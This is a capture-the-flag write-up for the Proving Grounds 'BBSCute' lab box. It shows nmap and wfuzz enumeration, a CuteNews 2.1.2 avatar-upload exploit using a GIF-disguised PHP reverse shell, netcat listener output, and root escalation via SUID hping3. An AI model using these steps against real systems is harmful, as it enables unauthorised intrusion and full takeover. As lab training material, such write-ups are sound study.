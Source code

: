 ```yaml
---
layout: default
title: BBSCute
parent: Proving Grounds Play
nav_order: 6
---
```


# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open <ip>
```

# Enumeration

---

## 80 - HTTP

### wfuzz

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
--hc 404 "http://192.168.222.128/FUZZ"

 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl.
 Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.222.128/FUZZ
Total requests: 37050

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000001:   200        168 L    396 W      6175 Ch     "index.php"
000000006:   200        63 L     481 W      3119 Ch     "LICENSE.txt"
000000002:   200        5 L      206 W      5182 Ch     "search.php"
000000069:   200        368 L    933 W      10701 Ch    "index.html"
000000063:   200        1 L      16 W       105 Ch      "rss.php"
000000126:   200        0 L      6 W        28 Ch       "print.php"
000000119:   200        0 L      7 W        94 Ch       "captcha.php"
000000110:   200        0 L      12 W       1052 Ch     "favicon.ico"
000000157:   403        9 L      28 W       280 Ch      ".htaccess"
000000379:   200        368 L    933 W      10701 Ch    "."
000000537:   403        9 L      28 W       280 Ch      ".html"
000000668:   200        0 L      6 W        28 Ch       "popup.php"
000000806:   403        9 L      28 W       280 Ch      ".php"
000001564:   403        9 L      28 W       280 Ch      ".htpasswd"
000001830:   403        9 L      28 W       280 Ch      ".htm"
000002100:   403        9 L      28 W       280 Ch      ".htpasswds"
000003551:   200        154 L    752 W      9522 Ch     "example.php"
000004625:   403        9 L      28 W       280 Ch      ".htgroup"
000005172:   403        9 L      28 W       280 Ch      "wp-forum.phps"
000007079:   403        9 L      28 W       280 Ch      ".htaccess.bak"
```

The two most interesting files discovered are _index.php_ and _captcha.php_.

### Register User

_example.php_ shows the domain _cute.calipendula_ so we add that to our _/etc/hosts_ file.

![calipendula](../../../assets/images/ctfs/proving_grounds/bbscute/calipendula.png)

![hosts](../../../assets/images/ctfs/proving_grounds/bbscute/hosts.png)

_index.php_ is a login screen with the ability to register a user.

![index](../../../assets/images/ctfs/proving_grounds/bbscute/index.png)

The registration process requires a captcha value which we can obtain from _captcha.php_

![captcha](../../../assets/images/ctfs/proving_grounds/bbscute/captcha.png)

Login with the registered user.

![login](../../../assets/images/ctfs/proving_grounds/bbscute/login.png)

# Exploitation

---

## CuteNews 2.1.2 - Authenticated Arbitrary File Upload

[Exploit Database CuteNews 2.1.2 exploit for authenticated arbitrary file upload.](https://www.exploit-db.com/exploits/48458)

Copy Pentest Monkey reverse shell to the current directory.
Edit to attach machine parameters and include _GIF8;_ at the top of the script.

![rev_shell](../../../assets/images/ctfs/proving_grounds/bbscute/rev_shell.png)

Upload the file to the registered user's avatar.

![avatar](../../../assets/images/ctfs/proving_grounds/bbscute/avatar.png)

As soon as we regresh the registered user's personal options page we have a reverse shell on our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/bbscute]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.222.128] 52280
Linux cute.calipendula 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 03:15:02 up  1:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## SUID Permissions

```bash
www-data@cute:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/mount
/usr/sbin/hping3
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device

```

## Exploit hping3 SUID

![suid](../../../assets/images/ctfs/proving_grounds/bbscute/suid.png)

Simply executing the _hping3_ binary gives us a root shell.

```bash
www-data@cute:/$ /usr/sbin/hping3
hping3> id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

```
